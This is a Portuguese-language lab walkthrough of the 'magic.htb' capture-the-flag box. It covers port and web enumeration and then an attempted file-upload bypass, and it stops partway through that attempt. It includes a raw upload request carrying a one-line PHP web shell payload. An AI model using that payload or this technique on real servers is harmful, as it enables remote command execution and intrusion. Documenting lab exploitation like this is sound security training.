 
## Enumeracao

TCP scan

```
sudo nmap_enum magic.htb
```

![](../../../media/Pasted%20image%2020240625171037.png)

UDP scan
```
sudo nmap -sU -p 53,111,113,161,500,2049 magic.htb
```

![](../../../media/Pasted%20image%2020240625171452.png)

TCP full scan

```
sudo nmap -sS -p- --max-retries 0 -T5 -Pn magic.htb
```

![](../../../media/Pasted%20image%2020240625171500.png)

vuln scan

```
sudo nmap -sS --script vuln -n -T5 -Pn magic.htb -p 22,80 | tee nmap_vulns.txt
```


### http

Enumeração de URLs:

```
urlExtract -r 4 http://magic.htb
```

![](../../../media/Pasted%20image%2020240625171929.png)

sem extensões

```
feroxbuster -u http://magic.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --extract-links
```

![](../../../media/Pasted%20image%2020240625172114.png)

Com extensões:

```
feroxbuster -u http://magic.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --extract-links -x "txt,html,php"
```


Inspecionando os cabeçalhos do servidor:

```
curl -v http://magic.htb -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" -o /dev/null
```

![](../../../media/Pasted%20image%2020240625172544.png)

Scan de vulnerabilidades:

```
nikto -host http://magic.htb -T x 6 -useragent "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" | tee nikto_output.txt
```

![](../../../media/Pasted%20image%2020240625184914.png)

```
curl http://magic.htb/upload.php
```

![](../../../media/Pasted%20image%2020240625185108.png)

Encontrado o entry point:

## Exploracao

### File upload

A requisição para upload de imagens. Vamos pensar em algum bypass para tentar explorar essa falha de upload aí:

```
POST /upload.php HTTP/1.1
Host: magic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------245961999042392549203283591301
Content-Length: 381
Origin: http://magic.htb
Connection: close
Referer: http://magic.htb/upload.php
Cookie: PHPSESSID=eascej6rocpq6erj2u0ge472j5
Upgrade-Insecure-Requests: 1

-----------------------------245961999042392549203283591301
Content-Disposition: form-data; name="image"; filename="80"
Content-Type: application/octet-stream

<?php system($_GET[0]); ?>

-----------------------------245961999042392549203283591301
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------245961999042392549203283591301--
```

![](../../../media/Pasted%20image%2020240625190704.png)

Abordagens

nome do arquivo:

teste.php

![](../../../media/Pasted%20image%2020240701145132.png)

```
curl -4 -X POST http://magic.htb/upload.php -F "submit=Upload Image" -F upload=@Capa_video_infra.jpg -v --proxy http://127.0.0.1:8080
```

![](../../../media/Pasted%20image%2020240701153043.png)